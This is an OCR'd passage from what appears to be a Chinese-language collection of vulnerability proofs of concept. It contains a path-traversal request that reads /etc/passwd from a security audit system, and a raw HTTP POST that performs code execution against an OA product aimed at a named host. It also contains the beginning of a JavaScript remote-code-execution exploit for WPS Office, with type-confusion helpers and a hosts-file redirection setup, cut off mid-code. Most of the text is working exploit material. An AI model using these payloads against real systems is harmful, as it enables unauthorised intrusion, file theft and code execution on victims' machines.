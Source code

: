 ### 8、某盟sas安全审计系统任意文件读取漏洞POC

/webconf/GetFile/indexpath=../../../../../../../../../../../../../../etc/passwd

### 9、某凌OA前台代码执行

POC EXP

POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: www.ynjd.cn:801
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: /
Connection: Keep-Alive
Content-Length: 42
Content-Type: application/x-www-form-urlencoded
var={"body":{"file":"file:///etc/passwd"}}

### 10、金山WPS RCE

wps影响范围为：WPS Office 2023 个人版 < 11.1.0.15120
WPS Office 2019 企业版 < 11.8.2.12085
POC
在1.html当前路径下启动http server并监听80端口，修改hosts文件（测试写死的） 
127.0.0.1 clientweb.docer.wps.cn.cloudwps.cn

漏洞触发需让域名规则满足clientweb.docer.wps.cn.{xxxxx}wps.cn cloudwps.cn和wps.cn没有任何关系
代码块在底下。（需要原pdf加wechat）
<script>
if(typeof alert === "undefined"){
alert = console.log;
}
let f64 = new Float64Array(1);
let u32 = new Uint32Array(f64.buffer);
function d2u(v) {
f64[0] = v;
return u32;
}
function u2d(lo, hi) {
u32[0] = lo;
u32[1] = hi;
return f64[0];
}
function gc(){ // major
for (let i = 0; i < 0x10; i++) {
new Array(0x100000);
}
}
function foo(bug) {
function C(z) {
Error.prepareStackTrace = function(t, B) {
return B[z].getThis();
};
let p = Error().stack;
Error.prepareStackTrace = null;
return p;
}
function J() {}
var optim = false;
var opt = new Function(
'a', 'b', 'c',
'if(typeof a===\'number\'){if(a>2){for(var
i=0;i<100;i++);return;}b.d(a,b,1);return}' +
'g++;'.repeat(70));
var e = null;
J.prototype.d = new Function(
